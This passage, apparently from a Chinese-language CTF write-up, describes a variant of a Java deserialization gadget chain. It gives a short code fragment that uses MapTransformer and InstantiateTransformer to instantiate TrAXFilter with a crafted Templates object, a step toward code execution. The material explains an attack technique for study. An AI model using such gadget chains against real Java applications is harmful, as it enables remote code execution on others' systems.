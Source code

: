 网上冲浪还找到一个师傅的绕过思路，虽然对于这题没法使用，但思路难道不是越多越好吗 :> 即把前面的`ConstantTransformer`换成`MapTransformer`，拼接一下就可以构造了。

```java
Map hashmap = new HashMap();
hashmap.put("keykey", TrAXFilter.class);
Transformer maptransformer = MapTransformer.getInstance(hashmap);
Transformer[] fakeTransformer = new Transformer[] {};
Transformer[] transformers = new Transformer[]{
    maptransformer,
    new InstantiateTransformer(new Class[]{Templates.class}, new Object[] {templates})
};
```



